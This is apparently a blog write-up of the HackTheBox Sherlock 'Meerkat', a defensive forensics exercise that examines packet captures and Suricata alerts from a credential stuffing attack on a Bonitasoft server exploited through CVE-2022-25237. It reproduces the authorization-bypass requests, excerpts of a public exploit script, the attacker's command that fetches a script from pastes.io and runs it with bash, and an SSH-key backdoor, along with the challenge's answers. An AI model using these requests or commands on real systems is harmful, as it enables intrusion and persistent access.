








# HTB Sherlock: Meerkat

[hackthebox](/tags#hackthebox ) [ctf](/tags#ctf ) [dfir](/tags#dfir )
[forensics](/tags#forensics ) [sherlock-meerkat](/tags#sherlock-meerkat )
[sherlock-cat-soc](/tags#sherlock-cat-soc ) [pcap](/tags#pcap )
[wireshark](/tags#wireshark ) [suricata](/tags#suricata )
[bonitasoft](/tags#bonitasoft ) [cve-2022-25237](/tags#cve-2022-25237 )
[tshark](/tags#tshark ) [credential-stuffing](/tags#credential-stuffing )
[pastes-io](/tags#pastes-io ) [jd-gui](/tags#jd-gui ) [jq](/tags#jq )  
  
Apr 23, 2024

HTB Sherlock: Meerkat

In Meerkat, I’ll look at some Suricata alert data and a PCAP and see how an
actor performs a credential stuffing attack against a Bonitasoft BPM server.
Once authenticated, they exploit a CVE to get access as a privileged user and
upload a malicious extension to run commands on the host opterating system.
Using that access, they download a Bash script from a pastes site and run it,
downloading a public key and putting it into a user’s authorized keys file to
backdoor the system. In Beyond Root, I’ll find the script the actor was using,
and do some basic reverse engineering on the Java plugin.

## Challenge Info

Name | [Meerkat](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fsherlocks%2fmeerkat)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fsherlocks%2fmeerkat)  
---|---  
Release Date | 13 November 2023  
Retire Date | 25 January 2024  
Difficulty | Easy  
Category | SOC   
Creator | [ sebh24](https://app.hackthebox.com/users/118669)  
  
  
## Background

### Scenario

> As a fast-growing startup, Forela has been utilising a business management
> platform. Unfortunately, our documentation is scarce, and our administrators
> aren’t the most security aware. As our new security provider we’d like you
> to have a look at some PCAP and log data we have exported to confirm if we
> have (or have not) been compromised.

Notes from the scenario:

  * I am getting PCAP and log data.
  * There is a business management platform in play.
  * There’s not much documentation.
  * I don’t know for sure if there’s been a compromise - I could be identifying unsuccessful attacks.

### Questions

To solve this challenge, I’ll need to answer the following 10 questions:

  1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
  2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
  3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
  4. Which string was appended to the API URL path to bypass the authorization filter by the attacker’s exploit?
  5. How many combinations of usernames and passwords were used in the credential stuffing attack?
  6. Which username and password combination was successful?
  7. If any, which text sharing site did the attacker utilise?
  8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
  9. Can you confirmed the file modified by the attacker to gain persistence?
  10. Can you confirm the MITRE technique ID of this type of persistence mechanism?

### Artifact Background

#### PCAC

Packet capture data (PCAPs) are files showing network traffic. I’ll want to
try to identify what hosts belong to Forela, and which are interacting with
them. In real life, this is typically very noisy data, but in CTF events
sometimes it’s just interesting traffic.

#### Suricata Alert Events

Log data is a bit ambiguous, but some internet searching shows it looks very
much like Suricata [alert
events](https://docs.suricata.io/en/latest/output/eve/eve-json-format.html).
[Suricata](https://docs.suricata.io/en/latest/index.html) is a network
intrusion detection system (IDS) that will look at network traffic for
patterns defined in rules and generate alerts when there is a match.

### Tools

To look at PCAP data, the by far most common tool is Wireshark.

For the log data, there are a few ways to go. `jq` is great for looking at raw
JSON data.

### Data

#### Overview

The data is two files:

    
    
    oxdf@hacky$ unzip -l meerkat.zip 
    Archive:  meerkat.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
      7173424  2023-06-23 06:58   meerkat.pcap
       212101  2023-06-02 10:36   meerkat-alerts.json
    ---------                     -------
      7385525                     2 files
    

The first is a PCAP file, and the second raw JSON data:

    
    
    oxdf@hacky$ file meerkat.pcap meerkat-alerts.json 
    meerkat.pcap:        pcapng capture file - version 1.0
    meerkat-alerts.json: JSON data
    

#### PCAP

I’ll open the PCAP in Wireshark and look at Statistics -> Protocol Hierarchy
Statistics:

It’s all IPv4, with some HTTP, SSH, and DNS jumping out as potentially
interesting.

Under Statistics -> Endpoings I’ll look at the IPv4 tab. There’s 151 different
IPs, but sorting but packets shows only a handful with much interaction:

There could still be an attacker doing attacks through rotating proxies, but
I’ll definitely want to focus on the high volume IPs. 172.31.6.44 seems like
it may be the internal business management server, as it’s got the most
packets and a private IP address.

#### Suricata Alert Events

To get a feel for the logs, I’ll use `jq` to select just the first one:

    
    
    oxdf@hacky$ cat meerkat-alerts.json | jq .[0]
    {
      "ts": "2023-01-19T15:44:49.669971Z",
      "event_type": "alert",
      "src_ip": "89.248.165.187",
      "src_port": 52870,
      "dest_ip": "172.31.6.44",
      "dest_port": 10227,
      "vlan": null,
      "proto": "TCP",
      "app_proto": null,
      "alert": {
        "severity": 2,
        "signature": "ET CINS Active Threat Intelligence Poor Reputation IP group 82",
        "category": "Misc Attack",
        "action": "allowed",
        "signature_id": 2403381,
        "gid": 1,
        "rev": 80387,
        "metadata": {
          "signature_severity": [
            "Major"
          ],
          "former_category": null,
          "attack_target": [
            "Any"
          ],
          "deployment": [
            "Perimeter"
          ],
          "affected_product": [
            "Any"
          ],
          "created_at": [
            "2013_10_08"
          ],
          "performance_impact": null,
          "updated_at": [
            "2023_01_18"
          ],
          "malware_family": null,
          "tag": [
            "CINS"
          ]
        }
      },
      "flow_id": 519087154346259,
      "pcap_cnt": 6292,
      "tx_id": null,
      "icmp_code": null,
      "icmp_type": null,
      "tunnel": null,
      "community_id": "1:+BXi7peXaBKuiEO4y3Ya0UlQMMQ="
    }
    

It looks like “alert” is the only `event_type`, but here are two records that
don’t have that field:

    
    
    oxdf@hacky$ cat meerkat-alerts.json | jq '.[].event_type' | sort | uniq -c | sort -nr
        261 "alert"
          2 null
    

## Accessing Bonitasoft

### Signature Analysis

#### Alert Overview

I’ll start by going for a high level understanding of the alerts. I’ll use `jq` to get just the `signature` field from each alert (knowing that two will show up as `null`), and use `sort | uniq -c | sort -nr` to make a histogram:
    
    
    oxdf@hacky$ cat meerkat-alerts.json | jq '.[].alert.signature' | sort | uniq -c | sort -nr
        134 "ET INFO User-Agent (python-requests) Inbound to Webserver"
         59 "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"
         17 "ET DROP Dshield Block Listed Source group 1"
         12 "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
          6 "ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
          4 "GPL WEB_SERVER DELETE attempt"
          4 "ET EXPLOIT Bonitasoft Successful Default User Login Attempt (Possible Staging for CVE-2022-25237)"
          4 "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"
          3 "ET CINS Active Threat Intelligence Poor Reputation IP group 84"
          3 "ET CINS Active Threat Intelligence Poor Reputation IP group 82"
          2 null
          1 "GPL SNMP public access udp"
          1 "ET SCAN Suspicious inbound to PostgreSQL port 5432"
          1 "ET SCAN Suspicious inbound to Oracle SQL port 1521"
          1 "ET SCAN Suspicious inbound to mySQL port 3306"
          1 "ET SCAN Suspicious inbound to MSSQL port 1433"
          1 "ET SCAN Potential VNC Scan 5900-5920"
          1 "ET SCAN Potential VNC Scan 5800-5820"
          1 "ET CINS Active Threat Intelligence Poor Reputation IP group 81"
          1 "ET CINS Active Threat Intelligence Poor Reputation IP group 76"
          1 "ET CINS Active Threat Intelligence Poor Reputation IP group 31"
          1 "ET CINS Active Threat Intelligence Poor Reputation IP group 29"
          1 "ET CINS Active Threat Intelligence Poor Reputation IP group 13"
          1 "ET ATTACK_RESPONSE Possible /etc/passwd via HTTP (linux style)"
          1 "ET 3CORESec Poor Reputation IP group 42"
          1 "ET 3CORESec Poor Reputation IP group 18"
    

Multiple alerts mention [Bonitasoft](https://www.bonitasoft.com/), an open
source business process management (BPM) tool (Task 1). There are 59 attempts
to log in to Bonitasoft using the default user, as well as other
authentication bypasses. I’ll want to look for this in the PCAP.

#### CVE-2022-25237

There are also multiple references to
[CVE-2022-25237](https://nvd.nist.gov/vuln/detail/CVE-2022-25237) (Task 3).
This is an:

> authentication/authorization bypass vulnerability due to an overly broad
> exclude pattern used in the RestAPIAuthorizationFilter. By appending
> ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no
> privileges can access privileged API endpoints. This can lead to remote code
> execution by abusing the privileged API actions.

There are two potential strings that can be appended to the URL to access
private API endpoints (I could brute force Task 4 from here, but I’ll wait to
verify it in the PCAP). I’ll want to keep an eye out for those specific
strings in HTTP traffic in the PCAP.

### PCAP

#### Login Attempts

I’ll turn to the PCAP and add the filter `http.request.uri`. This will
typically show one packet per HTTP request and the relative endpoint will be
displayed in info:

The first 117 packets shown are from 156.146.62.213 to 172.31.6.44 (which now
is confirmed as Forela’s Bonitasoft server). The first on seems to be loading
the main page, and then the next one probably the login form. Then a bunch of
login attempts.

I’ll use `tshark` and `grep` to get the form data:

    
    
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | head
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "install",Form item: "password" = "install",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "Clerc.Killich@forela.co.uk",Form item: "password" = "vYdwoVhGIwJ",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "install",Form item: "password" = "install",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "Lauren.Pirozzi@forela.co.uk",Form item: "password" = "wsp0Uy",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "install",Form item: "password" = "install",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "Merna.Rammell@forela.co.uk",Form item: "password" = "u7pWoF36fn",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "install",Form item: "password" = "install",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "Gianina.Tampling@forela.co.uk",Form item: "password" = "maUIffqQl",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "install",Form item: "password" = "install",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "Konstance.Domaschke@forela.co.uk",Form item: "password" = "6XLZjvD",Form item: "_l" = "en"
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | wc -l
    118
    

There’s 118 of these requests, which seem to come in pairs, the first trying
the username “install” with password “install”, and then trying a unique list
of usernames and passwords. If I get just the username “install”, there are 59
(leaving 59 unique ones):

    
    
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep '"username" = "install"' | wc -l
    59
    

These are the default creds for Bonita:

Adding `-v` to the last `grep` removes these lines, leaving the 59 unique
usernames and passwords. I’ll use `cut` to get the password field, and then
make a histogram and remove the passwords that just show up once:

    
    
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep -v '"username" = "install"' | cut -d'"' -f8 | head
    vYdwoVhGIwJ
    wsp0Uy
    u7pWoF36fn
    maUIffqQl
    6XLZjvD
    4ulecG
    n1aSdc
    VDt8bh
    GV2zlop
    x3hoU0
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep -v '"username" = "install"' | cut -d'"' -f8 | sort | uniq -c | sort -nr | grep -v "      1 "
          4 g0vernm3nt
    

Doing the same with username shows similar results:

    
    
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep -v '"username" = "install"' | cut -d'"' -f4 | head
    Clerc.Killich@forela.co.uk
    Lauren.Pirozzi@forela.co.uk
    Merna.Rammell@forela.co.uk
    Gianina.Tampling@forela.co.uk
    Konstance.Domaschke@forela.co.uk
    Vida.Murty@forela.co.uk
    Elka.Cavet@forela.co.uk
    Noam.Harvett@forela.co.uk
    Norbie.Bartolini@forela.co.uk
    Cariotta.Whife@forela.co.uk
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep -v '"username" = "install"' | cut -d'"' -f4 | sort | uniq -c | sort -nr | grep -v "      1 "
          4 seb.broom@forela.co.uk
    

The last three rows are all attempts to log in as `seb.broom@forela.co.uk`:

    
    
    oxdf@hacky$ tshark -r meerkat.pcap -Y "http.request.method == POST" -T fields -e text | grep '/bonita/loginservice' | grep -v '"username" = "install"' | tail -3
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "seb.broom@forela.co.uk",Form item: "password" = "g0vernm3nt",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "seb.broom@forela.co.uk",Form item: "password" = "g0vernm3nt",Form item: "_l" = "en"
    Timestamps,POST /bonita/loginservice HTTP/1.1\r\n,\r\n,Form item: "username" = "seb.broom@forela.co.uk",Form item: "password" = "g0vernm3nt",Form item: "_l" = "en"
    

So it looks like 56 usernames and passwords were sent (Task 5), likely from a
leaked password list, and then this one account was tried more times. Checking
previously leaked / stolen credentials against a service is known as a
credential stuffing attack (Task 2).

#### Successful Login

If I follow the steam of one of the unsuccessful logins, it sends a request:

    
    
    POST /bonita/loginservice HTTP/1.1
    Host: forela.co.uk:8080
    User-Agent: python-requests/2.28.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Cookie: x=x
    Content-Length: 39
    
    username=install&password=install&_l=en
    

Gets a 401:

    
    
    HTTP/1.1 401 
    Content-Length: 0
    Date: Thu, 19 Jan 2023 15:31:30 GMT
    Keep-Alive: timeout=20
    Connection: keep-alive
    

Sends another request with the stuffed creds:

    
    
    POST /bonita/loginservice HTTP/1.1
    Host: forela.co.uk:8080
    User-Agent: python-requests/2.28.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Cookie: x=x
    Content-Length: 64
    
    username=Clerc.Killich%40forela.co.uk&password=vYdwoVhGIwJ&_l=en
    

Gets another 401:

    
    
    HTTP/1.1 401 
    Content-Length: 0
    Date: Thu, 19 Jan 2023 15:31:34 GMT
    Keep-Alive: timeout=20
    Connection: keep-alive
    

However, with the `seb.broom@forela.co.uk` / `g0vernm3nt` creds, it returns a
204, setting cookies (Task 6):

    
    
    HTTP/1.1 204 
    Set-Cookie: bonita.tenant=1; SameSite=Lax
    Set-Cookie: JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9; Path=/bonita; HttpOnly; SameSite=Lax
    Set-Cookie: X-Bonita-API-Token=8b71f28f-31aa-47cb-92b6-50521cd5bf92; Path=/bonita; SameSite=Lax
    Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
    Date: Thu, 19 Jan 2023 15:38:38 GMT
    Keep-Alive: timeout=20
    Connection: keep-alive
    

It’s clearly a Java-based server (`JSESSIONID` cookie). I’ll also note these
requests have a `User-Agent` string from the Python `requests` library,
suggesting these are coming from a script (which makes sense for a brute force
attack like this).

## Host Exploitation

### Via Bonita Extension

Midway through the credential stuffing attack there’s a group of different
requests:

This must be where the login is successful and the script trying to log in
goes ahead and exploits it. The GET request has the command `whoami`, and the
response to that request has the result of root:

    
    
    HTTP/1.1 200 
    Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
    Date: Thu, 19 Jan 2023 15:35:05 GMT
    Accept-Ranges: bytes
    Server: Restlet-Framework/2.3.12
    Content-Type: application/json;charset=UTF-8
    Content-Length: 74
    Keep-Alive: timeout=20
    Connection: keep-alive
    
    {"p":"0","c":"1","cmd":"whoami","out":"root\n","currentDate":"2023-01-19"}
    

The way this is run in the middle of the stuffing attack suggests that the
attacker is reading creds from a file in a loop and using them to run the full
exploit script. Most of the time it fails and moves on, but when it works, the
results of `whoami` come back.

#### HTTP Requests After Stuff

The credential stuff successful, another IP address comes back about a minute
later and logs in twice (for some reason once with the default creds first):

Just looking at the URLs visited provides an idea of what actions are taken
next:

There are three blocks of four POSTs, a GET, and a DELETE. They are using the
same `python-requests/2.28.1` UA string.

At this point I suspect there’s a script that tries to log in using default
creds (POST 1), then given creds (POST 2), then abuses CVE-2022-25237 to
upload a plugin (POST 3 and maybe POST 4), runs a command (GET 1), and then
deletes itself (DELETE 1). I’ll find this script in Beyond Root. I’ll also
reverse engineer the extension.

Right here I also see the string appended to the URL to allow a lot priv user
access to admin APIs, `;i18ntranslation` (Task 4).

#### Upload

I’ll take a look at the POST request to `/bonita/API/pageUpload`:

It’s using CVE-2022-25237 to upload a zip archive that says it’s an API
extension, something like
[this](https://documentation.bonitasoft.com/bonita/latest/api/rest-api-
extension-archetype). The response shows details about the uploaded file:

The next request is to `/bonita/API/portal/page` which I think is activating
it or moving it into place:

    
    
    POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1
    Host: forela.co.uk:8080
    User-Agent: python-requests/2.28.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Type: application/json;charset=UTF-8
    Cookie: JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9; X-Bonita-API-Token=8b71f28f-31aa-47cb-92b6-50521cd5bf92; bonita.tenant=1; BOS_Locale=en
    Content-Length: 82
    
    {"contentName": "rce_api_extension.zip", "pageZip": "tmp_2823049839936328099.zip"}
    

#### Commands

Immediately after the forth POST there’s a GET to `/bonita/API/extensions/rce`
with a command and the results come back:

The four commands run are:

  * `whoami`
  * `cat /etc/passwd`
  * `wget https://pastes.io/raw/bx5gcr0et8`
  * `bash bx5gcr0et8`

The first is likely just testing for successful RCE. Then the next downloads a
script from `pastes.io` (Task 7) and then runs it.

#### Other Logs

I noted earlier that two logs didn’t fit the format of the alert events. I’ll
filter to those two logs with `jq`:

    
    
    oxdf@hacky$ cat meerkat-alerts.json | jq '.[] | select(.event_type != "alert")'
    {
      "_path": "ssl",
      "ts": "2023-01-19T15:39:18.512608Z",
      "uid": "ClRMBz4nXJeb8aRpG5",
      "id": {
        "orig_h": "172.31.6.44",
        "orig_p": 33220,
        "resp_h": "66.29.132.145",
        "resp_p": 443
      },
      "version": "TLSv13",
      "cipher": "TLS_AES_256_GCM_SHA384",
      "curve": "x25519",
      "server_name": "pastes.io",
      "resumed": true,
      "last_alert": null,
      "next_protocol": null,
      "established": true,
      "cert_chain_fuids": null,
      "client_cert_chain_fuids": null,
      "subject": null,
      "issuer": null,
      "client_subject": null,
      "client_issuer": null,
      "validation_status": null,
      "ja3": "4ea056e63b7910cbf543f0c095064dfe",
      "ja3s": "15af977ce25de452b96affa2addb1036"
    }
    {
      "_path": "ssl",
      "ts": "2023-01-19T15:38:53.080341Z",
      "uid": "ClMsQevtaFqIkwki4",
      "id": {
        "orig_h": "172.31.6.44",
        "orig_p": 55330,
        "resp_h": "66.29.132.145",
        "resp_p": 443
      },
      "version": "TLSv13",
      "cipher": "TLS_AES_256_GCM_SHA384",
      "curve": "x25519",
      "server_name": "pastes.io",
      "resumed": true,
      "last_alert": null,
      "next_protocol": null,
      "established": true,
      "cert_chain_fuids": null,
      "client_cert_chain_fuids": null,
      "subject": null,
      "issuer": null,
      "client_subject": null,
      "client_issuer": null,
      "validation_status": null,
      "ja3": "e91ce64088cf382a3a56b713620f0204",
      "ja3s": "15af977ce25de452b96affa2addb1036"
    }
    

These look to be logs about a given server, in this case `pastes.io`, a pastes
site. The two timestamps line up with the last two commands (`wget` and `bash`
run). The first one makes perfect sense. I’ll expect that the `bash` script
connects to `pastes.io` again as well.

### Script

#### Recover

I’ve got the URL for the downloaded script. It may still be there, and it is:

#### Analysis

This script is using `curl` to read another file, `hffgra4unv` (Task 8), from
`pastes.io` (which matches up with the second log) and save it into the
`authorized_keys` file for the ubuntu user. Assuming the file is a public key,
and the attacker has the private key, they can now SSH into the system (Task
9).

The key is still available as well:

The Mitre Att&ck Id for [Account Manipulation: SSH Authorized
Keys](https://attack.mitre.org/techniques/T1098/004/) is T1098.004 (Task 10).

## Results

### Timeline

Putting all that together makes the following timeline:

Time (UTC) | Description | Reference  
---|---|---  
15:31:27 | Credential stuffing attack starts (156.146.62.213) | PCAP  
15:35:05 | Successful login and upload / execute / delete `whoami` | PCAP  
15:37:32 | Credential stuffing attack stops | PCAP  
15:38:38 | Upload / execute / delete `cat /etc/passwd` | PCAP  
15:38:52 | Upload / execute / delete `wget https://pastes.io/raw/bx5gcr0et8` | PCAP  
15:38:53 | TLS log for `pastes.io` | Logs  
15:39:18 | Upload / execute / delete `bash bx5gcr0et8` | PCAP  
15:39:18 | TLS log for `pastes.io` | Logs  
  
### Question Answers

  1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

BonitaSoft

  2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

Credential Stuffing

  3. Does the vulnerability exploited have a CVE assigned - and if so, which one?

CVE-2022-25237

  4. Which string was appended to the API URL path to bypass the authorization filter by the attacker’s exploit? (No special characters)

i18ntranslation

  5. How many combinations of usernames and passwords were used in the credential stuffing attack?

56

  6. Which username and password combination was successful?

`seb.broom@forela.co.uk:g0vernm3nt`

  7. If any, which text sharing site did the attacker utilise?

`pastes.io`

  8. Please provide the filename of the public key used by the attacker to gain persistence on our host.

`mihffgra4unv`

  9. Can you confirmed the file modified by the attacker to gain persistence?

`/home/ubuntu/.ssh/authorized_keys`

  10. Can you confirm the MITRE technique ID of this type of persistence mechanism?

## Beyond Root

### Identify Script

Searching for POC’s for CVE-2022-25237, I’ll find [this
one](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2022-25237)
from Rhina Security Labs:

The extension name matches. On [lines 98 -
107](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2022-25237/CVE-2022-25237.py#L98-L107)
it tries the default login and then (when that fails) tries the given creds:

    
    
    if not try_default_logins():
        print("[!] Did not find default creds, trying supplied credentials.")
        login()
    upload_api_extension()
    activate_api_extension()
    try:
        run_cmd()
    except:
        delete_api_extension()
    delete_api_extension()
    

Then it uploads the extension, activates it, runs the command, and deletes the
extension. Each of those functions sends the requests that I see in the PCAP.
This pattern is exactly what I was suspecting above.

The script does this really unusual thing where it creates a class to hold the
command line args which fails if they aren’t all there and prints the usage:

    
    
    class exploit:
        try:
            session = requests.session()
            bonita_user = sys.argv[1]
            bonita_password = sys.argv[2]
            target_path = sys.argv[3]
            cmd = sys.argv[4]
            tempPath = ""
            extension_id = ""
            bonita_default_user = "install"
            bonita_default_password = "install"
            platform_default_user = "platformAdmin"
            platform_default_password = "platform"
        except:
            print(f"Usage: python3 {sys.argv[0]} <username> <password> http://localhost:8080/bonita 'cat /etc/passwd'")
            exit()
    

Then the different functions make use of this. For example, `login`:

    
    
    def login():
        req_url = f"{exploit.target_path}/loginservice"
        req_cookies = {"x": "x"}
        req_headers = {"Content-Type": "application/x-www-form-urlencoded"}
        req_data = {"username": exploit.bonita_user, "password": exploit.bonita_password, "_l": "en"}
        r = exploit.session.post(req_url, headers=req_headers, cookies=req_cookies, data=req_data)
        if r.status_code == 401:
            print("[!] Could not get a valid session using those credentials.")
            exit()
        else:
            print(f"[+] Authenticated with {exploit.bonita_user}:{exploit.bonita_password}")
    

### Extension

#### Recover

I can pull this out from WireShark at File -> Export Objects -> HTTP. After
sorting by size, the four 15 kB ones look like the backdoor:

I’ll pick one and select “Save”. The file is not actually a zip archive (yet):

    
    
    oxdf@hacky$ file rce_api_extension.zip
    rce_api_extension.zip: data
    

Looking at a hexdump, some of the HTTP metadata is still there:

    
    
    oxdf@hacky$ xxd rce_api_extension.zip | head -12
    00000000: 2d2d 6362 3135 6339 3363 6164 3435 3636  --cb15c93cad4566
    00000010: 6633 3032 3332 6435 6563 6163 3638 6232  f30232d5ecac68b2
    00000020: 3361 0d0a 436f 6e74 656e 742d 4469 7370  3a..Content-Disp
    00000030: 6f73 6974 696f 6e3a 2066 6f72 6d2d 6461  osition: form-da
    00000040: 7461 3b20 6e61 6d65 3d22 6669 6c65 223b  ta; name="file";
    00000050: 2066 696c 656e 616d 653d 2272 6365 5f61   filename="rce_a
    00000060: 7069 5f65 7874 656e 7369 6f6e 2e7a 6970  pi_extension.zip
    00000070: 220d 0a43 6f6e 7465 6e74 2d54 7970 653a  "..Content-Type:
    00000080: 2061 7070 6c69 6361 7469 6f6e 2f6f 6374   application/oct
    00000090: 6574 2d73 7472 6561 6d0d 0a0d 0a50 4b03  et-stream....PK.
    000000a0: 040a 0000 0800 00e6 4b8d 5400 0000 0000  ........K.T.....
    000000b0: 0000 0000 0000 0009 0000 004d 4554 412d  ...........META-
    

The zip file starts at “PK” at offset 0x9d. Similarly at the end of the file:

    
    
    oxdf@hacky$ xxd rce_api_extension.zip | tail -12
    00003a80: 7069 2f72 6573 6f75 7263 654e 616d 6552  pi/resourceNameR
    00003a90: 6573 7441 5049 2f70 6f6d 2e70 726f 7065  estAPI/pom.prope
    00003aa0: 7274 6965 7350 4b01 0214 0314 0000 0808  rtiesPK.........
    00003ab0: 00e6 4b8d 5465 4f3a 4de7 2b00 002e 3200  ..K.TeO:M.+...2.
    00003ac0: 002a 0000 0000 0000 0000 0000 00a4 8139  .*.............9
    00003ad0: 0b00 006c 6962 2f72 6573 6f75 7263 654e  ...lib/resourceN
    00003ae0: 616d 6552 6573 7441 5049 2d31 2e30 2e30  ameRestAPI-1.0.0
    00003af0: 2d53 4e41 5053 484f 542e 6a61 7250 4b05  -SNAPSHOT.jarPK.
    00003b00: 0600 0000 0009 0009 00f8 0200 0068 3700  .............h7.
    00003b10: 0000 000d 0a2d 2d63 6231 3563 3933 6361  .....--cb15c93ca
    00003b20: 6434 3536 3666 3330 3233 3264 3565 6361  d4566f30232d5eca
    00003b30: 6336 3862 3233 612d 2d0d 0a              c68b23a--..
    

At offset 0x3b13 there’s `\r\n` and then the HTTP form data divider. For me,
the quickest / cleanest way to chop this binary data is with Python (though
`cut` could work easily as well):

    
    
    oxdf@hacky$ python
    Python 3.11.7 (main, Dec  8 2023, 18:56:58) [GCC 11.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> with open('rce_api_extension.zip', 'rb') as f:
    ...     data = f.read()
    ... 
    >>> with open('rce_api_extension.zip', 'wb') as f:
    ...     f.write(data[0x9d:0x3b13])
    ... 
    14966
    
    
    
    oxdf@hacky$ file rce_api_extension.zip
    rce_api_extension.zip: Zip archive data, at least v1.0 to extract, compression method=store
    

I could have also just downloaded this from the GitHub POC repo (they are the
same):

    
    
    oxdf@hacky$ md5sum rce_api_extension*
    88a84b70274ab718fc028ed9a5af0fa6  rce_api_extension-legit.zip
    88a84b70274ab718fc028ed9a5af0fa6  rce_api_extension.zip
    

#### Unzip

The zip contains a Java Maven project:

    
    
    oxdf@hacky$ unzip -l rce_api_extension.zip 
    Archive:  rce_api_extension.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2022-04-13 09:31   META-INF/
            0  2022-04-13 09:31   META-INF/maven/
            0  2022-04-13 09:31   META-INF/maven/com.company.rest.api/
            0  2022-04-13 09:31   META-INF/maven/com.company.rest.api/resourceNameRestAPI/
            0  2022-04-13 09:31   lib/
         1565  2022-04-13 09:41   page.properties
         6982  2022-01-11 13:09   META-INF/maven/com.company.rest.api/resourceNameRestAPI/pom.xml
          138  2022-04-13 09:31   META-INF/maven/com.company.rest.api/resourceNameRestAPI/pom.properties
        12846  2022-04-13 09:31   lib/resourceNameRestAPI-1.0.0-SNAPSHOT.jar
    ---------                     -------
        21531                     9 files
    

`lib/resourceNameRestAPI-1.0.0-SNAPSHOT.jar` jumps out as most interesting to
look for execution.

#### jd-gui

I’ll unzip the archive and open the Jar file in [jd-gui](https://java-
decompiler.github.io/). It’s very simple, with one class, `Index.class`:

Without putting too much time digging into this, I’ll see how there’s a
`doHandle` function that processes the request parameters and calls the `cmd`
one:

